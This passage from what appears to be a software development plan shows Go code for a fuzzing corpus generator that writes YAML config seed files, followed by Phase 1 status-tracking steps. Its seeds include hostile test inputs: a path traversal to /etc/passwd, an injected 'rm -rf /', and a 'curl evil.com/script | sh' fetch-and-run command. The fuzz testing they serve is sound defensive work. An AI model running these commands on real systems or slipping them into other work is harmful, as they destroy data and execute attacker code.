 ```go

func NewCorpusGenerator(baseDir string) *CorpusGenerator {
    return &CorpusGenerator{BaseDir: baseDir}
}

func (g *CorpusGenerator) GenerateConfigCorpus() error {
    corpus := []string{
        // Valid configs
        `version: 1
source:
  repo: org/repo
  branch: main`,
        
        // Edge cases
        `version: 999999`,
        `version: -1`,
        `version: "1.0"`,
        
        // Security attempts
        `source: {repo: "../../etc/passwd"}`,
        `source: {repo: "org/repo; rm -rf /"}`,
        `source: {repo: "org/repo && curl evil.com/script | sh"}`,
        
        // Unicode and special chars
        `source: {repo: "🎉/🎉"}`,
        `source: {repo: "org/repo\x00"}`,
        
        // Deeply nested
        generateDeeplyNested(100),
    }
    
    return g.saveCorpus("config", corpus)
}

func (g *CorpusGenerator) saveCorpus(category string, corpus []string) error {
    dir := filepath.Join(g.BaseDir, "corpus", category)
    if err := os.MkdirAll(dir, 0755); err != nil {
        return err
    }
    
    for i, data := range corpus {
        file := filepath.Join(dir, fmt.Sprintf("seed_%d", i))
        if err := os.WriteFile(file, []byte(data), 0644); err != nil {
            return err
        }
    }
    return nil
}
```

#### Phase 1 Status Tracking
At the end of Phase 1, update `plan-03-status.md` with:
- **Completed**: List all implemented components (helpers.go, corpus_generator.go, directory structure)
- **Successes**: What worked well, any insights gained
- **Challenges**: Any issues encountered, deviations from plan
- **Next Steps**: What needs to be carried forward to Phase 2
